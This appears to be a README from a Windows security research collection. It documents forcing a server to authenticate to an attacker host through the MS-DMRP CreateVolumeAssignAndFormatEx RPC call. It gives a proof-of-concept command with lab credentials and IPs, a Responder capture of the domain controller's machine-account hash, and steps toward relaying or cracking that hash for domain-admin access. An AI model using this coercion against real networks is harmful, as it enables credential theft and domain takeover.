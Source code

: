 # MS-DMRP - Remote call to IVolumeClient3::CreateVolumeAssignAndFormatEx (opnum 31)

## Summary

+ **Protocol**: [[MS-DMRP]: Disk Management Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd)

+ **Protocol UUID**: d2d79df5-3400-11d0-b40b-00aa005ff586

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`IVolumeClient3::CreateVolumeAssignAndFormatEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/8eaaddda-c7dd-4d21-9163-dc4505299f17)

+ **Function operation number**: `31`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) protocol (with uuid `d2d79df5-3400-11d0-b40b-00aa005ff586` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DMRP]: Disk Management Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) and allows to call RPC functions of this protocol. We will then call the remote [`IVolumeClient3::CreateVolumeAssignAndFormatEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/8eaaddda-c7dd-4d21-9163-dc4505299f17) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IVolumeClient3::CreateVolumeAssignAndFormatEx('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CreateVolumeAssignAndFormatEx(
   [in] VOLUME_SPEC volumeSpec,
   [in] unsigned long diskCount,
   [in, size_is(diskCount)] DISK_SPEC* diskList,
   [in] wchar_t letter,
   [in] hyper letterLastKnownState,
   [in] int cchAccessPath,
   [in, size_is(cchAccessPath)] wchar_t* AccessPath,
   [in] FILE_SYSTEM_INFO fsSpec,
   [in] boolean quickFormat,
   [in] DWORD dwFlags,
   [out] TASK_INFO* tinfo
 );
```

## References

+ Documentation of protocol [MS-DMRP]: Disk Management Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd

+ Documentation of function `IVolumeClient3::CreateVolumeAssignAndFormatEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/8eaaddda-c7dd-4d21-9163-dc4505299f17